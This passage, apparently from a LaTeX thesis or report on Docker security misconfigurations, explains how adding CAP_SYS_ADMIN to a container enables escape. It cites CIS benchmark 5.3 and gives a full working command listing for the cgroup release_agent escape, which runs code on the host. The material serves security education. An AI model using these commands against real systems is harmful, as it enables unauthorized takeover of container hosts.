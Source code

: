 \subsection{Capabilities}\label{misconfigurations:subsection:capabilities}
As we saw in \autoref{protection-mechanisms:subsection:capabilities}, in order to perform privileged actions in the Linux kernel, a process needs the relevant \lstinline{capability}. Docker containers are started with minimal capabilities, but it is possible to add extra capabilities at runtime. Giving containers extra capabilities gives the container permission to perform certain actions. Some of these actions allow Docker escapes. We will look at two such capabilities in the following sections.

\medskip

The CIS Docker Benchmark covers all of these problems in one guideline: 5.3 (Ensure that Linux kernel capabilities are restricted within containers).

\subsubsection{\texorpdfstring{\lstinline{CAP_SYS_ADMIN}}{CAP SYS ADMIN}}\label{CAP_SYS_ADMIN}
The Docker escape by Felix Wilhelm\cite{Felix-Wilhem-Tweet} we used in \autoref{subsection:privileged} needs to be run in privileged mode to work, but it can be rewritten to only need the permission to run \lstinline{mount}\cite{TrailOfBits-Docker-Escape}, which is granted by the \lstinline{CAP_SYS_ADMIN} capability.

\begin{lstlisting}[caption={Docker escape using \lstinline{CAP_SYS_ADMIN}.},captionpos=b]
(host)$ docker run --rm -it --cap-add=CAP_SYS_ADMIN --security-opt apparmor=unconfined ubuntu /bin/bash
(cont)# mkdir /tmp/cgrp
(cont)# mount -t cgroup -o rdma cgroup /tmp/cgrp
(cont)# mkdir /tmp/cgrp/x
(cont)# echo 1 > /tmp/cgrp/x/notify_on_release
(cont)# host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
(cont)# echo "$host_path/cmd" > /tmp/cgrp/release_agent
(cont)# echo '#!/bin/sh' > /cmd
(cont)# echo "ps aux > $host_path/output" >> /cmd
(cont)# chmod a+x /cmd
(cont)# sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
(cont)# cat /output
\end{lstlisting}

Unlike before, instead of relying on \lstinline{--privileged} to give us write access to a \lstinline{cgroup}, we just need to mount our own. This gives us exactly the same scenario as we saw in \autoref{subsection:privileged}. We use a \lstinline{release_agent} to run code on the host. The only difference being that we have to do some manual work ourselves.

